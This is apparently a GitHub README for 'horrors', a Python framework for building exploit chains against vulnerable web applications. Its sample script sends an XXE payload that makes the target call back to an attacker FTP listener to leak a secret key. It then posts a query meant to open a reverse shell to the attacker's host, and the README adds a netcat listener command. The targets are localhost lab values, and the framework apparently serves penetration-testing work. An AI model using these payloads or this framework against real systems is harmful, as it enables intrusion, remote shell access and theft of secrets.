 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This little asyncio-based framework was created in order to simplify exploit chain development for vulnerable applications. All you have to do is:

```python
async def send_xxe(scenario):
    """Post XXE payload

    """
    await scenario.background(
        requests.post,
        'http://{rhost}:{rport}/xml-import/'.format(**scenario.context),
        data='<?xml version="1.0" ?><something>ftp://{lhost}:{lport_ftp}</something>'.format(**scenario.context),
        headers=scenario.context['post_headers'],
        proxies=scenario.context['proxy']
    )


async def reverse_shell(scenario):
    """Wait for `xxe` event triggered when remote client connects via FTP and sends the secret

    """
    await scenario.background(
        requests.post,
        'http://{rhost}:{rport}/query/'.format(**scenario.context),
        data='secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**scenario.context),
        headers=scenario.context['post_headers'],
        proxies=scenario.context['proxy']
    )


if __name__ == "__main__":
    context = {
        'rhost': '127.0.0.1',
        'rport': 8008,
        'lhost': '127.0.0.1',
        'lport_reverse': 4444,
        'lport_ftp': 2121,
        'proxy': {'http': 'http://127.0.0.1:8080'},
        'post_headers': {'Content-Type': 'application/x-www-form-urlencoded'},
    }

    ftpd = services.FTPReader()
    ftpd.set_state('xxe', when=triggers.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

    story = scenarios.Scenario(**context)
    story.spawn(ftpd)
    story.add(send_xxe)
    story.add(reverse_shell, when='xxe')
    story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

A full example is included in the `horrors/example` directory. Try it out by running:

    $ nc -lv4 4444
    $ horrors/example/victim.py
    $ horrors/example/attacker.py

### Demo

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

## Changelog

* **2021/08/10** Beta (v0.2)
   * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
   * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
   * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
